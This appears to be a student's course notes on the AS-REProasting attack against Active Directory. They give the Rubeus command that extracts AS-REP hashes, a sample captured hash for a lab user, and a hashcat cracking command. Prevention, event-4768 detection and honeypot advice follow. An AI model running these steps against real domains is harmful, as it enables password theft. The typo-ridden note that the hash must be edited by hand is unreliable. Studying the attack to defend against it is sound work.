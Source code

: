 # AS-REProasting

## Description

The `AS-REProasting` attack is similar to the `Kerberoasting` attack; we can obtain crackable hashes for user accounts that have the property `Do not require Kerberos preauthentication` enabled. The success of this attack depends on the strength of the user account password that we will crack.

***

## Attack

To get the crackable hashes we will use Rufeus again.\
However, this time, we will use the `asreproast` action. If we don't specify a name, `Rubeus` will extract hashes for each user that has `Kerberos preauthentication` not required

### extract hashes for each user that has "Kerberos preauthentication" not required

```powershell-session
.\Rubeus.exe asreproast /outfile:asrep.txt
```

Once we get the Rubeus file it will be placed in Downloads by default. Move the files to our kali machine via smb (shown n the second lesson)

***

### Hashcad edit for cracking the hash

Now for hashcat to reckgodnize this hash, we need to add $23 after $krb5asrep\`

```shell-session
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

We can now use `hashcat` with the hash-mode (option -m) `18200` for `AS-REPRoastable` hashes. We also pass a dictionary file with passwords (the file `passwords.txt`) and save the output of any successfully cracked tickets to the file `asrepcracked.txt`

## Crack hash

```shell-session
sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force
```

Open the output file and see the password at the end of the doc

***

## Prevention

* Only enable **"Do not require Kerberos preauthentication"** if absolutely necessary.
* **Review user accounts quarterly** to remove this setting if not needed.
* Regular users with this setting often have **weak passwords** – easy to crack.
* For required cases, enforce a **20+ character password policy**.

***

## Detection

* When we executed Rubeus, an Event with ID `4768` was generated, signaling that a `Kerberos Authentication ticket` was generated
* This ID is created for every ticket kerberos creates so it will be a lot of this ID
* You can **track source IPs** to detect unusual authentication behavior.
* **Alert on logins from unexpected VLANs** to catch potential attacks.

***

## Honeypot

* **Honeypot users** are fake accounts with no real use—any login attempt is suspicious.
* If it’s the **only** account without **Kerberos Pre-Authentication**, attackers may recognize and avoid it.
* **Old & Inactive** – Use an aged, unused account to avoid suspicion.
* **Password Age** – Service accounts: **2+ years** old, Regular accounts: **less than 1 year**.
* **Login History** – Ensure some login history **after** the last password change.
* **Minimal Privileges** – Assign some privileges to make the account interesting for attackers.

***

## Task

The tasks are done the same principe as the kerberoasting lesson.
